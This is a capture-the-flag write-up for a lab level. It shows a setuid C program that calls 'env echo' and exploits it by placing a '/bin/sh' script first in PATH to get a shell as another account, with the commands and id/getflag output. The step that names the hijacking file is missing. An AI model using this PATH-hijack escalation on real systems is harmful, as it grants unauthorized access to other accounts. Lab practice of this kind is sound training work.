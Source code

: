 # Level 01
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in /home/flag01.

## Source code
```c++
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Writeup

And write this code inside:

```sh
/bin/sh
```

Now change the `$PATH` variabile adding `/tmp` at the start:

```sh
export PATH=/tmp:$PATH
```

Go to `/home/flag01` directory and run `./flag01` binary to get a shell with flag01 account, verified by writing `id` command:

```
level01@nebula:/home/flag01$ ./flag01 
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```

Now we can run `getflag` command:

```sh
sh-4.2$ getflag
You have successfully executed getflag on a target account
```